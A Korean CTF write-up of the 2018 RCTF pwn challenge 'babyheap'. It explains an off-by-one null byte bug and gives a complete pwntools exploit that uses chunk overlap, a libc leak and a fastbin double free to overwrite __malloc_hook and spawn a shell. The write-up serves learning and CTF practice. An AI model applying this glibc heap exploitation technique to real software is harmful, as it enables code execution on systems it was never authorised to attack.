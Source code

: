 # \[2018 RCTF] \[Pwn] babyheap

keyword : off by one, null byte poisoning, double free

## Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

```
1. Alloc
2. Show
3. Delete
4. Exit
choice: 
```

기본적인 기능은 위와 같습니다.

```c
unsigned __int64 __fastcall input_content_BC8(char *a1, unsigned int a2)
{
  char buf; // [rsp+13h] [rbp-Dh]
  unsigned int i; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i < a2; ++i )
  {
    buf = 0;
    if ( read(0, &buf, 1uLL) < 0 )
      error_B90((__int64)"read() error");
    a1[i] = buf;
    if ( buf == 10 )
      break;
  }
  a1[i] = 0;                                    // off by one
  return __readfsqword(0x28u) ^ v5;
}
```

content를 입력하는 함수에서 off by one 버그가 발생합니다. 이를 통해 heap size, prev\_inuse\_bit 조작이 가능합니다.

### Exploit Scenario

```
#0 input size : 0x80 -> heap size : 0x90    unsorted bin
#1 input size : 0x68 -> heap size : 0x70    fast bin
#2 input size : 0xf0 -> heap size : 0x100
#3 input size : 0x60 -> heap size : 0x70
#4 input size : 0x60 -> heap size : 0x70
```

1. 위와 같이 힙 할당
2. \#0, \#1 해제
3. 0x68 크기 할당(\#0) 및 off by one
\- 마지막 8바이트에 `prev_size(0x90+0x70)` 입력
4. \#2 해제
\- unsorted bin logic에 의해 할당된 영역도 병합
5. 0x80 크기 할당(\#1)
6. \#0 show -> `main_arena` 릭
7. 0x68 크기 할당(\#2)
\- \#0 \#2 overlap
9. \#0 \#3 \#2 순으로 해제 -> double free

## Exploit Code

```python
from pwn import *

def alloc(size, content):
	p.sendafter("choice: ", "1")
	p.sendafter("size: ", str(size))
	p.sendafter("content: ", content)

def show(idx):
        p.sendafter("choice: ", "2")
	p.sendafter("index: ", str(idx))

def delete(idx):
        p.sendafter("choice: ", "3")
	p.sendafter("index: ", str(idx))

l = ELF("./libc.so.6")
p = process("./babyheap", env={'LD_PRELOAD':'./libc.so.6'})

alloc(0x88, "0\n")
alloc(0x68, "1\n")
alloc(0xf8, "2\n")
alloc(0x60, "3\n")
alloc(0x60, "4\n")
alloc(0x60, "5\n")

delete(0)	# unsorted bin
delete(1)	# fast bin

# off prev_inuse_bit
alloc(0x68, "0"*0x60+p64(0x70+0x90))

delete(2)
alloc(0x88, "1\n")
show(0)
p.recvuntil("content: ")

leak = u64(p.recvline()[:-1].ljust(8, "\x00"))
libc = leak - (0x7ffff7dd1b78 - 0x00007ffff7a0d000)
malloc_hook = libc + l.symbols['__malloc_hook']
target = malloc_hook - 0x20 - 3
one_shot = libc + 0x4526a
log.info("leak          = 0x%x" % leak)
log.info("libc          = 0x%x" % libc)
log.info("__malloc_hook = 0x%x" % malloc_hook )
log.info("target        = 0x%x" % target)
log.info("one_shot      = 0x%x" % one_shot)

# double free
alloc(0x60, "2\n")
delete(0)
delete(3)
delete(2)


alloc(0x60, p64(target) + p64(0) + "\n")
alloc(0x60, "0\n")
alloc(0x60, "2\n")
alloc(0x60, "\x00"*19+p64(one_shot)+"\n")

p.sendafter("choice: ", "1")
p.sendafter("size: ", "1")

p.interactive()
```

## Result

```
[+] Starting local process './babyheap': pid 11840
[*] leak          = 0x7ffff7dd1b78
[*] libc          = 0x7ffff7a0d000
[*] __malloc_hook = 0x7ffff7dd1b10
[*] target        = 0x7ffff7dd1aed
[*] one_shot      = 0x7ffff7a5226a
[*] Switching to interactive mode
$ whoami
delspon
$ 
```
